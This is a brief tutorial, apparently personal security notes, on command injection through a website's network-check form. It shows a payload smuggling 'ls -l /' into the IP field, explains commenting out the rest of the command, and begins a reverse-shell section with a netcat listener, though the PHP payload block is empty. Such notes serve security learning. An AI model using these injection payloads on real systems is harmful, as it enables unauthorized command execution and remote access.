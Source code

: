 ## **Overview**

Command injection is **an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application**.


## **General Exploitation**

- Given a website with a **network check**

![](https://i.imgur.com/KDBjndk.png)

- Anytime we input an **IP Address** or a domain name we can see it checks it up and even tells us the `curl` request been made

![](https://i.imgur.com/FmN5Hy0.png)

- We could use special operators like `| && || ;` to perform command execution after the given **IP/domain name**, right here i will be using this query

```
127.0.0.1 ; ls -l / #
```


> **Note :** the `#` symbol at the end of this query comments out the `| grep "HTTP/"` thereby not making it to execute


![For better view, view page-source](https://i.imgur.com/vRTb9hc.png)


#### **Bonus**

We can also attempt to get a reverse shell

- On your terminal do 

```bash
$ nc -lvnp 444
```

- Navigate to the website and use payload :

```PHP

```